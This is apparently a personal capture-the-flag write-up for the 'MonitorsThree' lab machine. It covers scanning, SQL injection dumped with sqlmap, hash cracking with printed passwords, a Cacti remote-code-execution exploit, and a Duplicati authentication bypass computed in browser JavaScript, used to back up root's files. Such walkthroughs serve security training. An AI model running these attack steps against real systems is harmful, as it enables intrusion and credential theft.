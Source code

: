 
starting with nmap 

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap monitorsthree.htb
```

![[Pasted image 20241009162037.png]]


nothing interesting just a website

vhost fuzzing
```bash
ffuf -H "Host: FUZZ.monitorsthree.htb" -u  http://monitorsthree.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 13560
```

![[Pasted image 20241009162141.png]]

when I check this cacti website , I found that is vulnerable to an rce

![[Pasted image 20241009162253.png]]

https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26

to exploit this we need creds 

so I start to enumerate the first website , on the `forget password` functionality , I found SQLi 


```payload
sss'
```

![[Pasted image 20241009162528.png]]

I tried to dump it manually , but it's blind so let's use sqlmap

```bash
sqlmap -r forgetpasssql --dbms mysql --dump --threads 10 -D monitorsthree_db -T users -C password --batch

# for the tables and colomuns I just guess them since  , to make it a bit faster 
```
![[Pasted image 20241009162709.png]]

![[Pasted image 20241009162725.png]]

let's crack them 
```bash
hashcat -a 0 -m 0 '31a181c8372e3afc59dab863430610e8'  /usr/share/wordlists/rockyou.txt 


31a181c8372e3afc59dab863430610e8:greencacti2001
```

I will use these creds to get foothold , I used msfconsoke for this 


and , I am in now 

![[Pasted image 20241009163450.png]]

search for cacti configuration file
```bash
www-data@monitorsthree:~/html/cacti/include$ cat config.php
```

![[Pasted image 20241009163758.png]]


![[Pasted image 20241009163853.png]]

```mysql
 mysql -u cactiuser -p 
 Enter password: cactiuser
```

on `user_auth` table , `cacti` db I found hashes for user
![[Pasted image 20241009165224.png]]

let's crack them 
```bash
hashcat -a 0 -m 3200 hash  /usr/share/wordlists/rockyou.txt

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

![[Pasted image 20241009165322.png]]

done with user .

```bash
netstat -ntlp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38441         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

there's some intersting port running internally.

two port that got my interest 8200,8084

there's also another application in `/opt`

```bash
 cat docker-compose.yml
```

```yml
version: "3"

services:
  duplicati:
    image: lscr.io/linuxserver/duplicati:latest
    container_name: duplicati
    environment:
      - PUID=0
      - PGID=0
      - TZ=Etc/UTC
    volumes:
      - /opt/duplicati/config:/config
      - /:/source
    ports:
      - 127.0.0.1:8200:8200
    restart: unless-stopped
```

this application is running on docker , we can access it on port `8200` 

another interesting point is , this application can access host file in `/source`

```
/:/source
```

so let's forward it to our machine

I found the ssh key on marcus home
```bash
ssh -L 8200:localhost:8200 marcus@monitorsthree.htb -i marcus_ssh
```

![[Pasted image 20241009170104.png]]


this apps suffer from authentication bypass , I  [followed this article to bypass authentication ](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)
grab the `Duplicati-server.sqlite`
```
scp -i marcus_ssh marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite  .
```

on the options table

```
Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
```

![[Pasted image 20241009170548.png]]

![[Pasted image 20241009170823.png]]

now we need to get the `nonce`

just intercept request and response on burp

![[Pasted image 20241009171733.png]]


intercept response of this 

![[Pasted image 20241009171808.png]]


now on the browser

```js
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('OkRXyoFZf/zvfu4F5kxLWflz0No73EybQDRsIAANnFQ=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
```

![[Pasted image 20241009172724.png]]

now send this as password


this website can backup any file/folder on the machine

so let's backup `/root`  remember  the app is running on docker to access files on the host machine we need to use `/source`


![[Pasted image 20241009173126.png]]
\
click on test connection to create folder
![[Pasted image 20241009173152.png]]

![[Pasted image 20241009173057.png]]


![[Pasted image 20241009173242.png]]


![[Pasted image 20241009173257.png]]

![[Pasted image 20241009173318.png]]


![[Pasted image 20241009173337.png]]


![[Pasted image 20241009173800.png]]


now we should find the root files on `/tmp/d0s3nt1`

![[Pasted image 20241009173831.png]]
